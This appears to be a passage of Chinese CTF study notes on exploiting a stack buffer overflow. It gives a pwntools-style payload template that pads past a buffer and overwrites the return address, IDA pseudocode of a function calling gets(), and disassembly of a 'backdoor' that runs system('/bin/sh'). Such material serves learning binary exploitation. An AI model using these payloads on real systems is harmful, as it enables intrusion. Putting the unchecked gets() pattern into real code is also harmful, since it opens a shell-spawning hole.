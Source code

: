 编译命令(filename 不带扩展名)

```bash
./g32.sh filename
./g64.sh filename
```



### 2.利用

#### 				1) x86: 



```python
payload = b'a' * 溢出长度 + p32(target_addr)
```

例：

```c
# ida伪代码
int vuln()
{
  char s[14]; // [esp+6h] [ebp-12h] BYREF

  gets(s);
  return printf("%s", s);
}
```

```
.text:08049196 ; =============== S U B R O U T I N E =======================================
.text:08049196
.text:08049196 ; Attributes: bp-based frame
.text:08049196
.text:08049196                 public backdoor
.text:08049196 backdoor        proc near
.text:08049196
.text:08049196 var_4           = dword ptr -4
.text:08049196
.text:08049196 ; __unwind {
.text:08049196                 push    ebp
.text:08049197                 mov     ebp, esp
.text:08049199                 push    ebx
.text:0804919A                 sub     esp, 4
.text:0804919D                 call    __x86_get_pc_thunk_ax
.text:080491A2                 add     eax, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:080491A7                 sub     esp, 0Ch
.text:080491AA                 lea     edx, (aBinSh - 804B254h)[eax] ; "/bin/sh"
.text:080491B0                 push    edx             ; command
.text:080491B1                 mov     ebx, eax
.text:080491B3                 call    _system
.text:080491B8                 add     esp, 10h
.text:080491BB                 nop
.text:080491BC                 mov     ebx, [ebp+var_4]
.text:080491BF                 leave
.text:080491C0                 retn
.text:080491C0 ; } // starts at 8049196
.text:080491C0 backdoor
```
